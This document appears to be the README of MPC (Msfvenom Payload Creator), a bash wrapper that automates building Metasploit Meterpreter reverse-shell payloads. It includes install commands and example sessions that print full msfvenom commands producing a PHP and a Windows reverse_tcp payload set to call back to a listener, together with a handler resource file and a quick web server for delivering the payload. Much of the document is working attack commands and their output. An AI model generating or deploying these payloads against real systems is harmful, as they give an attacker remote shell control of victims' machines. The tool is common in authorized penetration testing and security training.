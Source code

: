 A **quick** way to generate various "basic" Meterpreter payloads via msfvenom (part of the Metasploit framework).

![Msfvenom Payload Creator (MPC)](https://i.imgur.com/KjlZjd9.png)

- - -

## About

Msfvenom Payload Creator (MPC) is a wrapper to generate multiple types of payloads, based on users choice. The idea is to be as **simple as possible** (**only requiring one input**) to produce their payload.

**Fully automating** Msfvenom & Metasploit is the end goal _(well as to be be able to automate MPC itself)_.
The rest is to make the user's life as **easy as possible** (e.g. **IP selection menu**, **msfconsole resource file/commands** and a **quick web server** etc).

The only necessary input from the user should be **defining the payload** they want by either the **platform** (e.g. `windows`), or the **file extension** they wish the payload to have (e.g. `exe`).

_Note: This will **not** try to bypass any anti-virus solutions._

## Install

* Designed for **Kali Linux 1.1.0a+** & **Metasploit v4.11+** _(nothing else has been tested)_.

```
curl -k -L "https://raw.githubusercontent.com/g0tmi1k/mpc/master/mpc.sh" > /usr/bin/mpc
chmod +x /usr/bin/mpc
mpc
```

## Help

``` bash
root@kali:/var/www# bash /root/mpc.sh
 [*] Msfvenom Payload Creator (MPC)

 [i] Missing type

 [i] /root/mpc.sh <TYPE> (<IP>) (<PORT>)
 [i] TYPE:
 [i]   + ASP (meterpreter)
 [i]   + Bash (meterpreter)
 [i]   + Linux (meterpreter)
 [i]   + PHP (meterpreter)
 [i]   + Python (meterpreter)
 [i]   + Windows (meterpreter)
 [i] IP will default to IP selection menu
 [i] PORT will default to 443
root@kali:/var/www#
```

## Example \#1 (PHP - Fully Automated)

```bash
root@kali:/var/www# bash /root/mpc.sh php 127.0.0.1
 [*] Msfvenom Payload Creator (MPC)
 [i]   IP: 127.0.0.1
 [i] PORT: 443
 [i] TYPE: PHP (php/meterpreter_reverse_tcp)
 [i]  CMD: msfvenom --payload php/meterpreter_reverse_tcp --format raw --platform php --arch php LHOST=127.0.0.1 LPORT=443 -o /var/www/php_meterpreter.php
No encoder or badchars specified, outputting raw payload
Saved as: /var/www/php_meterpreter.php
 [i] PHP meterpreter created as '/var/www/php_meterpreter.php'
 [i] MSF handler file create as 'php_meterpreter.rc (msfconsole -q -r /var/www/php_meterpreter.rc)'
 [?] Quick web server?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:/var/www#
```

## Example \#2 (Windows - Interactive)

```bash
root@kali:/var/www# bash /root/mpc.sh exe
 [*] Msfvenom Payload Creator (MPC)

 [i] Use which IP address?:
 [i]   1.) 192.168.103.136
 [i]   2.) 192.168.155.175
 [i]   3.) 127.0.0.1
 [?] Select 1-3: 2

 [i]   IP: 192.168.155.175
 [i] PORT: 443
 [i] TYPE: Windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom --payload windows/meterpreter/reverse_tcp --format exe --platform windows --arch x86 LHOST=192.168.155.175 LPORT=443 -o /var/www/windows_meterpreter.exe
No encoder or badchars specified, outputting raw payload
Saved as: /var/www/windows_meterpreter.exe
 [i] Windows meterpreter created as '/var/www/windows_meterpreter.exe'
 [i] MSF handler file create as 'windows_meterpreter.rc (msfconsole -q -r /var/www/windows_meterpreter.rc)'
 [?] Quick web server?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:/var/www#
```

## To-Do List

* Display interface name next to IP address (e.g. `2.) 192.168.155.175 [eth1]`)
* Display file stats (e.g. file, size, md5/sha1) _Commands are in, just commented out._
* Cleaner command line arguments (e.g. `-ip 127.0.0.1`, `-v` etc)
* Support different payloads (e.g. `standard shells`/`nc` & `reverse_http`/`reverse_https`, `bind` etc)
* x64 payloads
